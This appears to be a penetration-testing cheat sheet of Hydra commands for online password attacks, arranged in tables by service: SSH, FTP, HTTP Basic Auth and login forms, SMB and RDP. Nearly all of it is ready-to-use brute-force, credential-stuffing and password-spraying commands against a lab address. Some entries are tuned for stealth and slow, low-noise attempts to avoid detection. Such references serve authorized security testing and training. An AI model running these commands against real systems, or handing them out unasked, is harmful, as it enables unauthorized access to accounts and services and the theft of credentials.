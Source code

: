 ### SSH Password Attacks

| Command | Description |
|---------|-------------|
| `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.100` | SSH root brute force |
| `hydra -L users.txt -P passwords.txt ssh://10.10.10.100` | SSH credential stuffing |
| `hydra -l admin -P passwords.txt -s 2222 ssh://10.10.10.100` | SSH on custom port |
| `hydra -l user -P wordlist.txt -t 4 ssh://10.10.10.100` | Limited threads (stealth) |
| `hydra -l user -P wordlist.txt -f ssh://10.10.10.100` | Stop after first success |

### FTP Password Attacks

| Command | Description |
|---------|-------------|
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.100` | FTP brute force |
| `hydra -L users.txt -P passwords.txt ftp://10.10.10.100` | FTP credential testing |
| `hydra -l anonymous -p "" ftp://10.10.10.100` | Test anonymous FTP |
| `hydra -l ftp -P wordlist.txt -s 2121 ftp://10.10.10.100` | Custom FTP port |

### HTTP Authentication Attacks

| Command | Description |
|---------|-------------|
| `hydra -l admin -P passwords.txt 10.10.10.100 http-get /admin` | HTTP Basic Auth |
| `hydra -l admin -P passwords.txt 10.10.10.100 http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"` | HTTP POST form |
| `hydra -L users.txt -P passwords.txt 10.10.10.100 https-get /secure` | HTTPS Basic Auth |
| `hydra -l admin -P wordlist.txt 10.10.10.100 http-get-form "/login.php:user=^USER^&pass=^PASS^:failed"` | HTTP GET form |

### SMB/NetBIOS Attacks

| Command | Description |
|---------|-------------|
| `hydra -l administrator -P passwords.txt smb://10.10.10.100` | SMB password attack |
| `hydra -L users.txt -P passwords.txt smb://10.10.10.100` | SMB credential spraying |
| `hydra -l guest -p "" smb://10.10.10.100` | Test guest account |

### RDP Password Attacks

| Command | Description |
|---------|-------------|
| `hydra -l administrator -P passwords.txt rdp://10.10.10.100` | RDP brute force |
| `hydra -L users.txt -p Password123! rdp://10.10.10.100` | RDP password spraying |
| `hydra -l user -P wordlist.txt -t 1 rdp://10.10.10.100` | Slow RDP attack |
